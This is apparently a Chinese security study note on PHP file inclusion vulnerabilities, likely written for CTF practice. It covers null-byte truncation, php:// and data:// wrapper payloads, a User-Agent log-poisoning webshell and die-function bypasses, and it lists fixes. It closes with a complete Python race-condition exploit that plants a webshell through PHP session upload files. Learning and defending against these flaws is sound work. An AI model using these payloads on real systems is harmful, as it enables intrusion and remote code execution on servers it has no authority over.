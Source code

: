 title: 文件包含
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2023-04-11 22:36:00
---
#### 原理
文件包含漏洞是指应用程序在处理文件路径时，没有进行足够的验证
导致攻击者可以利用此漏洞读取任意文件，执行任意代码甚至获取系统权限。 

这种漏洞通常出现在应用程序中动态引用文件的代码中
或是出现在用户可以控制文件名、文件路径或文件内容的输入参数上。
攻击者可以在这些参数中注入特定的字符，从而构造一个恶意文件路径并被应用程序读取
应用程序没有对这个路径进行验证，最终导致攻击者可以获取系统权限或读取任意文件。 

#### 分类
1. 本地文件包含
2. 远程文件包含 ：即加载远程文件，在`php.ini`中开allow_url_include 、allow_url_fopen选项。开启后可以直接执行任意代码。

#### 漏洞利用
【截断包含】
1.%00会被认为是结束符，后面的数据会被直接忽略，导致扩展名截断
2.路径长度截断：
Windows下目录最大长度为256字节，超出最大长度之后的部分将全部丢弃
Linux下目录最大长度为4096字节，超出的部分会被丢弃。
使用超长的../1.php或者一直重复../1.php

【有限制远程文件包含漏洞绕过】
使用`?`或者`%23`或者`%20`截断后缀（已编码）

【使用伪协议读取文件】
```
参数=php://filter/convert.base64-encode/resource=目标文件
file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==    
file=data://text/plain,<?=`tac f*`;?>
```

【UA注入后日志包含】
```
user-ugent:
<?=eval($_POST[cmd]);?>
访问日志文件:
?file=/var/log/nginx/access.log
使用POST执行命令:
cmd=system(“ls”);
在UA中注入编码过的代码不会被浏览器解码
GET请求的参数在存入PHP之前也不会被解码，但是日志在转发到PHO的端口之前就已经写入日志了。
```

【session临时文件条件竞争】
```
在.被过滤后php中唯一能无后缀控制的，只有session文件
当开启session时，服务器会在临时目录下创建session文件来保存会话信息，文件名格式为sess_PHPSESSID。一般的linux会将session保存在下面的的某一个目录下:
     /var/lib/php/
     /var/lib/php/sessions/
     /tmp/
     /tmp/sessions/
web服务会使用多线程接收用户的请求，以确保能够处理并发进程或线程不同的程序段
在多个并发请求时多个进程可能会同时创建同一个session文件
那么攻击者就有可能在服务器创建session文件之前，先创建一个同名的session文件
并利用PHP_SESSION_UPLOAD_PROGRESS设置文件内容，写入攻击者的命令
如果成功存入了恶意文件，就能访问该文件并POST执行RCE
EXP放在了文末
```

【绕过die函数】
```
思路:
将die函数的代码语句编码成不能正常执行的命令，然后再将文件内的恶意代码编码成可执行命令。
首先，base64加秘后会忽略掉一些符号以及中文字体
(只有+, / , 0-9,a-z,A~Z,其余字符都会被跳过)
又因为base64加密是4个一组，所以当你随意加上字符补齐die函数的编码时就能绕过die函数
例如
"<?php die('大佬别秀了');?>"解码的内容其实只有phpdie，所以需要再填充两位
另外，因为php://filter伪协议支持使用多个过滤器
所以可使用strip_tags与base64解码的形式来实现绕过死亡代码
例如
?file=php://filter/string.strip_tags|convert.base64-decode/resource=4.php
除此之外，可以通过使用rot13加密让php引擎把该代码识别成乱码
例如
<?=system('tac f*.php');?>  ————>  <?=flfgrz('gnp s*.cuc');?>
<?=flfgrz('gnp s*.cuc');?>  ————>  <?=system('tac f*.php');?>
```

#### 修复方案
1. 禁止远程文件包含allow_url_include=off
2. 配置open_basedir=指定目录，限制访问区域。
3. 过滤../等特殊符号
4. 修改Apache日志文件的存放地址
5. 开启魔术引号magic_quotes_qpc=on
6. 尽量不要使用动态变量调用文件，直接写要包含的文件。
7. 使用白名单或安全沙箱技术
8. 遵循最小权限原则，确保应用程序具有最小的访问权限。

<a href="https://smms.app/image/MyvPX9diUcxpwSE" target="_blank"><img src="https://s2.loli.net/2023/07/07/MyvPX9diUcxpwSE.png" ></a>


session文件条件竞争EXP
```

import requests
import io
import threading

url = ''    # 改成自己的url
sessionid = 'truthahn'      # 设置PHPSESSID为truthahn，使生成的临时文件名为sess_truthahn
cookies = {
            'PHPSESSID':sessionid
        }

def write(session):		# write()函数用于写入session临时文件
    fileBytes = io.BytesIO(b'a'*1024*50)    # 设置上传文件的大小为50k
    data2 = {
        'PHP_SESSION_UPLOAD_PROGRESS':'<?=eval($_POST[1])?>'    # 设置sess_truthahn临时文件的内容为<?=eval($_POST[1])?> 实现一句话
    }
    files = {
        'file':('truthahn.jpg',fileBytes)
    }
    while True:    
        res = session.post(url,data=data2,cookies=cookies,files=files)
        # print(res.text)
        #print('======= write done! ======')

def read(session): 		# read()函数利用session临时文件生成一句话木马，实现rce
    data1 = {
        "1":"file_put_contents('/var/www/html/3.php','<?=eval($_POST[2]);?>');"     # 使用file_put_contents()php内置函数生成名为3.php的shell文件
    }
    while True:
        res = session.post(url+'?file=/tmp/sess_'+sessionid,data=data1,cookies=cookies)
        # print(res.text)
        res2 = session.get(url+'3.php')
        # print(res2.text)
        if res2.status_code == 200:     #若3.php成功生成，则返回Done!，否则返回失败的状态码
            print('++++++++ Done! +++++++++')
        else:
            print(res2.status_code)

if __name__ == '__main__':
    event = threading.Event()       
    with requests.session() as session:     # 为每个函数设置5个线程并发执行，可以适当增加以应对系统执行的系统时间
        for i in range(5):
            #print('*'*50)
            threading.Thread(target=write,args=(session,)).start()
        for i in range(5):
            #print('='*50)
            threading.Thread(target=read,args=(session,)).start()

    event.set()
```